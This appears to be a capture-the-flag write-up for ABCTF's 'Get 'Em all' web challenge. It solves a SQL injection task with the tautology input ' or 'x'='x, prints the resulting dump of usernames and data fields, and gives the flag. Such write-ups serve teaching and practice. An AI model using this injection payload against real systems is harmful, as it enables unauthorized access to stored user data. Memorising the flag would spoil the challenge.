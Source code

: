 ```yaml
---
layout: writeup
title: 'Web Exploitation 80: Get ‘Em all'
level:
difficulty:
points: 80
categories: [web exploitation]
tags: []
flag: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
---
```

**Challenge**   
I think one of the users data fields holds a flag. If only you could
find the username. Link

**Solution**   
SQL injection challenge, we enter the following in the input field:

    ' or 'x'='x

and get the following output, which includes the flag

    Name: Luke
    Data: I made this problem.
    Name: Alec
    Data: Steam boys.
    Name: Jalen
    Data: Pump that iron fool.
    Name: Eric
    Data: I make cars.
    Name: Sam
    Data: Thinks he knows SQL.
    Name: fl4g__giv3r
    Data: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
    Name: snoutpop
    Data: jowls
    Name: Chunbucket
    Data: @datboiiii